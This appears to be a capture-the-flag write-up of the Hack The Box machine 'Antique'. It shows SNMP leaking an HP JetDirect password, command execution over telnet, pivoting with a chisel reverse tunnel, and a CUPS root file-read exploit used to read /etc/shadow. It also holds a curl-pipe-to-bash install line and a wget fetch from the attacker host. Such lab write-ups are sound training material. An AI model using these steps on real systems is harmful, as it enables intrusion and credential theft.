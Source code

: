 # Antique

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/45543cd2-89b3-4c3f-b1a2-8d105107362b)

## Difficulty = Easy
---
Let run our nmap scan :

```sh
# Nmap 7.94 scan initiated Thu Aug 17 12:45:24 2023 as: nmap -p- -sCV -v --min-rate=1000 -T4 -oN nmap.txt 10.10.11.107
Increasing send delay for 10.10.11.107 from 0 to 5 due to 374 out of 934 dropped probes since last increase.
Warning: 10.10.11.107 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.107
Host is up (0.21s latency).
Not shown: 64059 closed tcp ports (conn-refused), 1475 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.94%I=7%D=8/17%Time=64DE4F2F%P=x86_64-pc-linux-gnu%r(NULL
SF:,F,"\nHP\x20JetDirect\n\n")%r(GenericLines,19,"\nHP\x20JetDirect\n\nPas
SF:sword:\x20")%r(tn3270,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(GetReq
SF:uest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(HTTPOptions,19,"\nHP\x2
SF:0JetDirect\n\nPassword:\x20")%r(RTSPRequest,19,"\nHP\x20JetDirect\n\nPa
SF:ssword:\x20")%r(RPCCheck,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNS
SF:VersionBindReqTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNSStatusR
SF:equestTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Help,19,"\nHP\x20J
SF:etDirect\n\nPassword:\x20")%r(SSLSessionReq,19,"\nHP\x20JetDirect\n\nPa
SF:ssword:\x20")%r(TerminalServerCookie,19,"\nHP\x20JetDirect\n\nPassword:
SF:\x20")%r(TLSSessionReq,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Kerbe
SF:ros,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(SMBProgNeg,19,"\nHP\x20J
SF:etDirect\n\nPassword:\x20")%r(X11Probe,19,"\nHP\x20JetDirect\n\nPasswor
SF:d:\x20")%r(FourOhFourRequest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r
SF:(LPDString,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPSearchReq,19,
SF:"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPBindReq,19,"\nHP\x20JetDire
SF:ct\n\nPassword:\x20")%r(SIPOptions,19,"\nHP\x20JetDirect\n\nPassword:\x
SF:20")%r(LANDesk-RC,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(TerminalSe
SF:rver,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(NCP,19,"\nHP\x20JetDire
SF:ct\n\nPassword:\x20")%r(NotesRPC,19,"\nHP\x20JetDirect\n\nPassword:\x20
SF:")%r(JavaRMI,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(WMSRequest,19,"
SF:\nHP\x20JetDirect\n\nPassword:\x20")%r(oracle-tns,19,"\nHP\x20JetDirect
SF:\n\nPassword:\x20")%r(ms-sql-s,19,"\nHP\x20JetDirect\n\nPassword:\x20")
SF:%r(afp,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(giop,19,"\nHP\x20JetD
SF:irect\n\nPassword:\x20");

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 17 12:50:34 2023 -- 1 IP address (1 host up) scanned in 309.59 seconds
```

We can see that telnet port 23 is opened, let try to connect

![](https://i.imgur.com/XvjeS6x.png)

Unfortunately i tried out different passwords, but to no avail and it breaks connection after each wrong password
"Screams, Enumerate Harder😿"

![](https://i.imgur.com/TVB6pPB.png)

Read out several blogs and articles, but i wasn't sure i would get shell via telnet without having to connect first, which is true.

Then i decided to check for `UDP` ports using `nmap`

```sh
sec-fortress@Pwn-F0rk-3X3C:~/HTB/Antique$ sudo nmap -sU -sCV 10.10.11.107 -v --min-rate=1000 -T4 -oN nmap.txt
[sudo] password for sec-fortress: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-17 12:43 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 12:43
Completed NSE at 12:43, 0.00s elapsed
Initiating NSE at 12:43
Completed NSE at 12:43, 0.00s elapsed
Initiating NSE at 12:43
Completed NSE at 12:43, 0.00s elapsed
Initiating Ping Scan at 12:43
Scanning 10.10.11.107 [4 ports]
Completed Ping Scan at 12:43, 0.41s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 12:43
Completed Parallel DNS resolution of 1 host. at 12:43, 0.06s elapsed
Initiating UDP Scan at 12:43
Scanning 10.10.11.107 [1000 ports]
Discovered open port 161/udp on 10.10.11.107
Completed UDP Scan at 12:43, 7.41s elapsed (1000 total ports)
Initiating Service scan at 12:43
Scanning 987 services on 10.10.11.107
[............]
```

We discovered port 161/UDP which runs on **SNMP** , let enumerate more

![](https://i.imgur.com/ij2jru5.png)

Great, something similar, a password disclosure, i then decided to follow up this [blog](https://www.irongeek.com/i.php?page=security/networkprinterhacking) which gave me a lead and made me understand better how this works :

>  It seems that the device password for many JetDirects is stored in almost plain text and is accessible via SNMP using the read community name. Most folks leave their SNMP community name as "public" but even it has been change it's likely sniffable. Also try "internal" as the community name as this is the default write community name on many JetDirects. Reports are that on some JetDirects , even if you change the community name, "internal" will still work.

Sweet using this exploit i got the password in hex form :

![](https://i.imgur.com/GFzb5z0.png)

Note that `BITS:` is the password here, copying the hex provided from `BITS:` and decrypting it gives us a password 

![](https://i.imgur.com/i8zOS38.png)

Great now let login

![](https://i.imgur.com/jB8DGq1.png)

I used the question mark `?` to check for enabled commands and we can see that we can use the `exec` command to execute system commands, let try getting a reverse shell via these

![](https://i.imgur.com/0PpC94x.png)

I tried several ways but couldn't get that rev shell, i decided to enumerate more and later found out that , there was another port listening on  this Network, which is port `631` - Internet Printing Protocol(IPP) using the command `netstat -ant`

![](https://i.imgur.com/d7BzEXB.png)

### Pivoting

- We are gonna use a tool called `chisel` , first of all install the chisel binary from [here](https://github.com/jpillora/chisel/releases/tag/v1.8.1) or run this command on your attacker terminal : `curl https://i.jpillora.com/chisel! | bash` , also make sure `chisel` is installed on the attacker machine

![](https://i.imgur.com/jtD7sON.png)

- Now start a python3 server in this same directory and send the `chisel` binary to your target using wget

![](https://i.imgur.com/jvQMiRX.png)

> After running `exec wget 10.10.14.12/chisel` i don't get my shell back so i started up another shell (telnet service), also make sure to grant chisel executable permissions by running `exec chmod +x chisel`

- Now let start up our chisel client and server service in other to get access to the network, Do this :
	- On attacker machine run `chisel server -p 1337 --reverse`
	- On target machine run `exec ./chisel client 10.10.14.12:1337 R:socks`

![](https://i.imgur.com/BS16RHO.png)

- Now open up your `/etc/proxychains4.conf` file with `sudo nano /etc/proxychains4.conf` 

![](https://i.imgur.com/dVrNM2g.png)

- scroll down and # (hash tag) `socks4` , then change the port of `socks5` to port `1080` 

![](https://i.imgur.com/edBUW59.png)

- Save the file with `ctrl + x` and do `proxychains zsh` 

![](https://i.imgur.com/4S4jphb.png)

> Now we can scan the target network using `127.0.0.1` instead of `10.10.11.107` , this time `127.0.0.1` will serve as our target IP because of the proxy

- Running nmap on port `631` gives us a service called `CUPS` running on version `1.6.1`

![](https://i.imgur.com/qvgUpRZ.png)

- type `firefox` on the terminal and paste in `127.0.0.1:631` in the address bar

![](https://i.imgur.com/p1umAyp.png)

- Everywhere seems to be screaming `CUPS 1.6.1` , sooo, i decided to enumerate that first, Make sure to open another browser because Firefox uses a proxy now, which might be a little bit slow

![](https://i.imgur.com/cCzM9DQ.png)

- Great looks like a `root-file read` exploit that allows us to  read important files on this target, you can download an exploit from [here](https://github.com/p1ckzi/CVE-2012-5519) , make sure to read the documentation too
- We will be sending the exploit like we did earlier using `python3` and `wget` 

![](https://i.imgur.com/Qrikf3I.png)

- Now that our target has the exploit run `chmod +x cups-root-file-read.sh` to grant executable permissions, we can now read any file on our target, i will be reading the `/etc/shadow` 

![](https://i.imgur.com/DDGZfpf.png)

- Unfortunately i couldn't crack it cos' of hardware resource, so i just got my flag and went out, moreover SSH wasn't opened 😭

![](https://i.imgur.com/gagWrFW.png)


GG , Printer hacking is one of the greatest concerns of many users as well as many cybersecurity professionals. Printers come weakly configured by default and very few bother securing them. This box showcases some common vulnerabilities of network printers. I really love this box because it opened my eye to how printer works and how mis-configurations could lead to take-overs, Bankaaaaiiii!!!!🎎

